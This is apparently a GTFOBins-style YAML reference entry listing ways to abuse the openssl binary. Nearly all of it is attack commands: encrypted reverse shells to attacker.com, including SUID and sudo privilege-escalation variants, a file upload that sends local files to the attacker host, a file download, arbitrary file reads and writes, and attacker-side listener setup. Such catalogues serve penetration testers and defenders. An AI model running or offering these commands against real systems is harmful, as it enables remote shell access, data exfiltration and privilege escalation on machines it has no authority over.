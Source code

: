 ```yaml
---
functions:
  reverse-shell:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save

        Send a local file via TCP. Transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: |
        To send the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send

        Fetch a file from a TCP port, transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        openssl enc -in "$TF" -out "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        openssl enc -in "$LFILE"
  suid:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s

    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
  sudo:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
---
```

